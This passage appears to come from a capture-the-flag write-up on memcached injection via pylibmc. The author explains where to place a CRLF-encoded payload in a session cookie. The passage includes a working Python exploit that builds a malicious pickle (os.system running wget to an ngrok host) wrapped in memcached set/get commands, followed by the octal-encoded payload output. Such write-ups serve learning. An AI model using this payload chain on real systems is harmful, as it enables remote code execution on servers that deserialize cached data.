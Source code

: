 Reading the blog, i got that we can do a memcached injection with `pylibmc` by using carriage return line breaks by encoding the payload in a special sequence that is being understood by the HTTP protocol. However, the tricky part for me was to identify where to place the payload. In the blog, the author used a cookie named `notsecret` which i wasn't sure of. After spending some more time on this, i found the author's twitter where he attached a GIF of the exploit and used it as the session cookie. 

The good thing was we got the exploit code from the blog. I modified it a bit to send request to my `ngrok` server:
```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget https://b058-2407-d000-403-e00e-60d2-910d-df7c-df4d.ngrok-free.app',)
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset BT_:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get BT_:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""

if __name__ == "__main__":
    print(generate_exploit())
```

The payload i got looked something like this: 
```
"\061\063\067\015\012\163\145\164\040\102\124\137\072\061\063\063\067\040\060\040\062\065\071\062\060\060\060\040\061\060\060\015\012\143\156\164\012\163\171\163\164\145\155\012\160\060\012\050\126\167\147\145\164\040\150\164\164\160\163\072\057\057\142\060\065\070\055\062\064\060\067\055\144\060\060\060\055\064\060\063\055\145\060\060\145\055\066\060\144\062\055\071\061\060\144\055\144\146\067\143\055\144\146\064\144\056\156\147\162\157\153\055\146\162\145\145\056\141\160\160\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\102\124\137\072\061\063\063\067"
```
